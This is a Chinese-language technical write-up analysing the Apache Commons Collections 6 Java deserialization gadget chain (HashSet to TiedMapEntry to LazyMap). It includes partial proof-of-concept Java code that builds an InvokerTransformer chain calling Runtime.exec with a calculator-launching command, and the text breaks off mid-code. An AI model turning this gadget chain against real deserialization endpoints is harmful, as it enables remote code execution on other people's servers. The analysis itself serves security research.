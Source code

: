 ## 前置知识
### HashSet
`HashSet`是一个无序的、不允许有重复元素的集合，本质上就是由`HashMap`实现的，跟`HashMap`一样，都是一个存放链表的数组，`HashSet`中的元素都存放在`HashMap`的`key`上面，而`value`中的值都是统一的一个`private static final Object PRESENT = new Object();`，在`HashSet`的`readObject`方法中会调用其内部`HashMap`的`put`方法，将值放在`key`上。

![undefined](https://p4.ssl.qhimg.com/t0141e979ce4274e659.png "undefined")

## CommonsCollections6 分析
在`CommonsCollections5`中，通过对`TiedMapEntry#toString`方法的调用，触发了`TiedMapEntry#getValue`，继而触发了`LazyMap#get`来完成后半段的调用；而在`CommonsCollections6`中则是通过`TiedMapEntry#hashCode`触发对`TiedMapEntry#getValue`的调用，但是需要找到一个触发`hashcode()`方法的点，因此利用前置知识中的`HashSet()`方法来触发`hashCode()`方法。

在`HashSet#readObject`方法中，跟进`put()`方法，进入`java.util.HashMap`中调用`put()`方法，接着调用`hash()`方法，进而调用`key.hashCode()`，这里只需要让`key`为`TiedMapEntry`对象即可。

![undefined](https://p2.ssl.qhimg.com/t01ab6ef7b8fac67391.png "undefined")

![undefined](https://p2.ssl.qhimg.com/t0142489a93cadf6740.png "undefined")

但是在实际利用是需要解决一个问题，那就是在调用`put`方法的时候就触发命令执行的问题，P牛对此的解决方法是`outerMap.remove("h3rmesk1t");`，成功在反序列化的时候也触发了命令执行。

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:38 下午
 */
public class FakeDemo {

    public static void fakeDemo() throws IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");

```